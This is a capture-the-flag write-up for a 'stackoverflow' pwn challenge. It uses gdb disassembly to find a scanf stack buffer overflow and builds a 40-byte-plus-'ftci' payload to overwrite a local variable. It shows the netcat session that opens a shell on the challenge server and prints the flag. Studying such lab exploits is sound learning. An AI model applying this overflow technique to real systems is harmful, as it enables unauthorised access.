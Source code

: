 # stackoverflow  50 points

# Description

Welcome to Stack Overflow! Get answers to all your programming questions right here!

```nc chal.imaginaryctf.org 42001```


# Attachments

https://imaginaryctf.org/r/E795-stackoverflow (If link is down, the executable is included in this directory)

# Solution

Let's make the program executable and run it locally fist.

```bash
./stackoverflow
Welcome to StackOverf..
AAAAa
Thanks! Now onto the posts!
ERROR: FEATURE NOT IMPLEMENTED YET
```

The program prints welcome message,get input from the user,print 'FEATURE NOT IMPLEMENTED YET' and exit.Nothing interesting.

But if we give long input, we can see the **Segmentation fault (core dumped)**.

```bash
./stackoverflow
Welcome to StackOverf..
AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA
Thanks! Now onto the posts!
ERROR: FEATURE NOT IMPLEMENTED YET
Segmentation fault (core dumped)
```

So there must be a buffer overflow vulnerability in this program.Let's run this program in **gdb** to disassemble and analyse the program more.

I will not show the whole gdb result.Only interesting parts will be shown.And also, I am using intel syntax with (set disassembly-flavor intel)

```
0x00005555555547c2 <+8>:	mov    QWORD PTR [rbp-0x8],0x42424242
```
This tells us that there is **0x42424242** (which is BBBB in hex format) at **rbp-0x8**

```
0x0000555555554812 <+88>:	lea    rax,[rbp-0x30]
0x0000555555554816 <+92>:	mov    rsi,rax
0x0000555555554819 <+95>:	lea    rdi,[rip+0x183]
0x0000555555554820 <+102>:	mov    eax,0x0
0x0000555555554825 <+107>:	call   0x555555554690 <__isoc99_scanf@plt>
```
The program is using **scanf** to get our input and the addreass of our input starts from **rbp-0x30**.Because **rsi** is the first argument of the **scanf** function.
```
0x0000555555554836 <+124>:	cmp    QWORD PTR [rbp-0x8],0x69637466
0x000055555555483e <+132>:	jne    0x55555555485f <main+165>
...
0x0000555555554858 <+158>:	call   0x555555554670 <system@plt>
```
This part tells us that the program compare **rbp-0x8** with 0x69637466 (wich is **ictf** in hex format).If not equals it will jump to 0x55555555485f which will print the "FEATURE NOT IMPLEMENTED YET" message.If it is equal, it will and follow and arrive to call **system** instruction.

System is a C function that creates a child process which executes the given argument as a shell command.It must be our goal in this challenge.

After reading the assembly, we knew that we must change the **rbp-0x8** which is 0x42424242 ("BBBB") into 0x69637466 ("ictf") to get to system function.And, we already knew that there is a buffer overflow vulnerability in this program.So, all we have to do is overflow and change the **rbp-0x8**.

The address of our input is at **rbp-0x30** which we knew from reading assembly.So, the stack may looks like this
```
(our input)rbp-0x30               -> |  AAAAA  |
...                                  |  AA.... |
...                                  |  ...... |
(target we want to change)rbp-0x8 -> |  BBBB   |
```
The *0x30* in decimal is *48* and *0x8*  in decimal is *8*.The distance from our input address to target is *48 - 8 = 40*.So, we have to write 40 bytes first and the write "ictf".

So , our payload may look like this
```
AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAictf
```
Let's try that
```
Welcome to StackOverf..
AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAictf
Thanks! Now onto the posts!
ERROR: FEATURE NOT IMPLEMENTED YET
```
Hmm... nothing?Let's try again that in gdb.But I make a break point at compare instruction (b * main + 124) to see what the rbp-0x8 is changed into.
```
Welcome to StackOverf..
AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAictf
Thanks! Now onto the posts!

Breakpoint 1, 0x0000555555554836 in main ()
(gdb) x/x $rbp-0x8
0x7fffffffde68:	0x66746369
```
Aha.. .It's endianess.The *ictf* becomes *0x66746369 ("ftci")* because we use **little endianess**.So, we have to change *ictf* to *ftci*

Let's try that
```
nc chal.imaginaryctf.org 42001
Welcome to StackOverf..
AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAftci
Thanks! Now onto the posts!
DEBUG MODE ACTIVATED.
ls
flag.txt
run
cat flag.txt
ictf{4nd_th4t_1s_why_y0u_ch3ck_1nput_l3ngth5_486b39aa}
```
And, there is the flag
```
ictf{4nd_th4t_1s_why_y0u_ch3ck_1nput_l3ngth5_486b39aa}
```
